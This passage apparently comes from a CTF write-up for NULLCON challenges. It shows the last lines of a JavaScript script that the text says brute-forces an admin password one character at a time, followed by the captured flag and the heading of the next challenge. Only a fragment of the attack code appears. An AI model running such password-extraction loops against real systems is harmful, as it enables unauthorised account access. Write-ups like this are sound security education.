 ```js
        break;
      }
    }
    if (!found) break;
    await new Promise(r => setTimeout(r, 150)); // small delay
  }
  console.log("DONE. Admin password =", prefix);
})();
```

4. This script brute-forces the password character by character and prints the result.

---

## Result

```
ENO{V1b3_C0D1nG_Gr4nDmA_Bu1ld5_InS3cUr3_4PP5!!}

```



---
<div id="web-pwgen-100" style="text-align: center;">
  <h1>✨2. Pwgen</h1>
</div>

<img src="/posts/CTF/NULLCON/pwgen.png" style="width:500px;">

---
